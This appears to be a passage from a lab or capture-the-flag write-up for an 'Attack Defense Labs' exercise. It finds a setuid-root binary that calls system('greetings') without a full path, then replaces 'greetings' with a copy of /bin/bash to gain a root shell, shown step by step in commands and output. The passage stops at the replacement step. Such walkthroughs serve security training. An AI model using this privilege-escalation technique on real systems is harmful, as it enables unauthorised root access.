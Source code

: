 **SETUID Analysis:**
```bash
# File: greetings
# Permissions: -rwsr-sr-x (the 's' indicates SUID bit)
# Owner: root (runs with root privileges)
# This is our target for exploitation
```

#### **Phase 2: Binary Analysis and Vulnerability Discovery**

**Binary Type Analysis:**
```bash
student@target:~$ file welcome
welcome: setuid ELF 64-bit LSB shared object, x86-64, version 1

student@target:~$ ./welcome
Welcome to Attack Defense Labs
# Program runs and displays message
```

**Critical Vulnerability Discovery:**
```bash
student@target:~$ strings welcome
# Key finding in output:
greetings  ← Program calls "greetings" without full path!

# Additional evidence:
system     ← Uses system() function (vulnerable)
setuid     ← Confirms SETUID functionality
```

**Attack Vector Identification:**
- **Vulnerability**: Program uses `system("greetings")` without absolute path
- **Exploitation Method**: Replace "greetings" binary with malicious version
- **Impact**: Malicious binary runs with root privileges via SETUID welcome program

#### **Phase 3: Binary Replacement Attack Execution**

**Remove Original Binary:**
```bash
student@target:~$ rm greetings
rm: remove write-protected regular file 'greetings'? y
# Confirmed: Original greetings binary removed
```

**Create Malicious Replacement:**
```bash
student@target:~$ cp /bin/bash greetings
# Result: greetings now contains bash shell instead of original program

student@target:~$ ls -la greetings
-rwxr-xr-x 1 student student 1113504 Oct  8 14:30 greetings
# Confirmed: Replacement binary created and executable
```
